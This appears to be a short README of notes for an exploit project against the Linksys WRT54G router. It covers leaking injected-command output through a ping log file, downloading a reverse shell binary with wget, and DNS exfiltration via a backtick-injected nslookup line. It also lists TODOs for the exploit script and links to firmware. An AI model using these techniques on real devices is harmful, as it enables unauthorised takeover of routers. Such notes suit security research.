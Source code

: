 # Exploiting Linksys WRT54G


### Leads for leaking command output
- [x] Look for file paths that are displayed within the web interface that command output can be written to.  
  Using `/tmp/ping.log` to view the output at `/Ping.asp`.
- [x] Use `wget` to download reverse shell binary to the router.
- [ ] Config the attacker as the DNS server and force the router to issue DNS requests with the command output.  
  Like ```nslookup `whoami`.fake.domain```


### TODOs
- Use argparse and make the exploit an executable.
- Start the reverse shell server within the exploit itself.


### Unsolved Mysteries
- If `ui_language` is stored in nvram (Non-Volatile Memory), how come it fixes itself upon reboot?


[Firmware Download Link](https://www.linksys.com/us/support-article?articleNum=148648)
[Linksys' Toolchain](https://www.linksys.com/us/support-article?articleNum=114663)
